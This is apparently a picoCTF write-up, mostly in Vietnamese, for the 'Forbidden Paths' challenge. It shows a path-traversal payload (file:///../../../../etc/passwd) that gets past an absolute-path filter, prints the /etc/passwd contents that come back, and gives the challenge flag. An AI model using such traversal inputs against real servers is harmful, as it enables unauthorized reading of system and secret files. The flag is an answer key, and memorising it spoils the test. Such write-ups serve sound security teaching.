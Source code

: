 # Write-up : Forbidden Paths 
---
### Description :
> Can you get the flag?
> We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?
### Hint :
> none
---
### Solution :
- Ngay từ mô tả của bài ta có thể thấy 1 đường dẫn `` /usr/share/nginx/html/ ``, nhìn khá là quen mắt
- Có thể đó là 1 đường dẫn đến thư mục html của linux, tôi thử tìm đường dẫn đó trong linux thì có xuất hiện và tôi thử mở 1 file trong đường dẫn đó thì trên trình duyệt có đường dẫn là ``` file:///usr/share/nginx/html/index.html ```
- Thử đọc các file cho sẵn thì hoàn toàn bình thường nhưng đọc file /flag.txt thì hoàn toàn không được vì bị filter đi 
#### Kết luận : có cho phép người dùng đọc file từ 1 đường dẫn URL đến file đó ( dự đoán ) 
> Nếu đọc file qua đường dẫn URL và dùng linux thì có khả năng bị `` Path Traversal ``
> Ta biết thêm website ở trong đường dẫn `` /usr/share/nginx/html/ ``

Test thử với đường dẫn URL là `` file:///../../../../etc/passwd `` thì có kết quả trả về là :
> Vì có khả năng các thư mục được lưu từ vị trí của website trở đi nên tôi đoán rằng file `` /etc/passwd `` có thể là cùng cấp với cấp thư mục con của đường dẫn đó.
```bash
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```
Tuyệt vời! 
Vậy thì lỗi `` Path Traversal `` có hoạt động, việc của chúng ta bây giờ chỉ cần tìm file `` /flag.txt ``

Thử với đường dẫn : ``` file:///../../../../flag.txt ``` thì ta nhận được flag của bài.
### Flag : `` picoCTF{7h3_p47h_70_5ucc355_6db46514} `` 
